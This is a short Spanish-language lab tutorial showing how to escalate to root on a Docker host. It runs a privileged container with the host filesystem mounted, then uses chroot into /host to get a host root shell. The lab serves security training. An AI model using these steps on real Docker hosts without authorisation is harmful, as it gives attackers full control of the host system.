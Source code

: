 # Laboratorio 3: Elevación de privilegios

El objetivo del siguiente laboratorio es explotar una configuración insegura de Docker para escalar privilegios y obtener acceso root en el host de Docker.

### Requisitos previos
- Una instancia Ubuntu con Docker instalado.
- Docker CLI configurado en la máquina local apuntando al host de Docker.
- Un usuario con permisos para ejecutar contenedores en Docker.

**Paso 1** Ejecuta el siguiente comando en tu máquina local para desplegar un contenedor inseguro:

        docker run -d --rm --name vulnerable-container \
        --privileged \
        -v /:/host \
        ubuntu:latest sleep infinity

**Paso 2** Explota la vulnerabilidad

        docker exec -it vulnerable-container /bin/bash

**Paso 3** Dentro del contenedor, accede al sistema de archivos del host:

        cd /host
        ls -la

Deberías ver el sistema de archivos completo del host. Ahora, cambia al usuario root del host ejecutando:

        chroot /host /bin/bash

Esto te dará una shell con permisos de root en la instancia. Confírmalo ejecutando:

        whoami
